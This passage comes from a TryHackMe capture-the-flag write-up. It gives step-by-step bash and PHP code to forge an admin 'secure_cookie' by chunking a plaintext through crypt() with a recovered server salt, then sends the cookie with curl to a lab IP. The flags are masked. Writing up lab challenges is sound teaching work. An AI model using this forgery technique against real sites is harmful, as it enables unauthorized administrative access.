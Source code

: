 1. Choose an 8-character User-Agent (we use `AAAAAAAA` in examples). It must match in both the cookie-building step and the final request.

2. Extract the server salt from a real cookie (see Recon section). Use it to compute `crypt()` outputs.

3. Build the plaintext input used by the server for cookie generation:

```bash
UA='AAAAAAAA'
ENC_KEY='REPLACE_WITH_YOUR_RECOVERED_KEY'
TEXT="admin:${UA}:${ENC_KEY}"
```

4. Generate the forged `secure_cookie` using the server salt (example code uses the salt previously extracted into `$SALT`):

```bash
export TEXT SALT
FORGED=$(php -r '
$text = getenv("TEXT");
$salt = getenv("SALT");
$cookie = "";
foreach (str_split($text, 8) as $el) {
    $cookie .= crypt($el, $salt);
}
echo $cookie;
')

echo "forged secure_cookie: $FORGED"
```

5. Send a request as `admin` with the forged cookie and the same UA:

```bash
curl -s -A "$UA" -H "Cookie: user=admin; secure_cookie=${FORGED}" http://10.10.122.185/ | sed -n '1,200p'
```

**Expected:** The site should respond with a successful page that contains the web flag (masked in this writeup). Example (masked):

```
congrats: THM{ok_you_f0und_w3b_fl4g_********}. Now I want the key.
```

> **Important:** If the server regenerates a new salt on each request, ensure you **fetch the cookie / salt immediately before** forging and reuse that same salt to compute the forged cookie.

---

## Submission formats (how TryHackMe expects you to submit)
- **What is the value of the web flag?**
  - Format: `THM{**_***_*****_***_****_*******}`  
  - Example (masked): `THM{ok_you_f0und_w3b_fl4g_********}`

- **What is the encryption key?**
  - Format: `THM{...}` (longer).  
  - Example (masked): `THM{Tradit*****_Own_Cryp*****_..._********}`
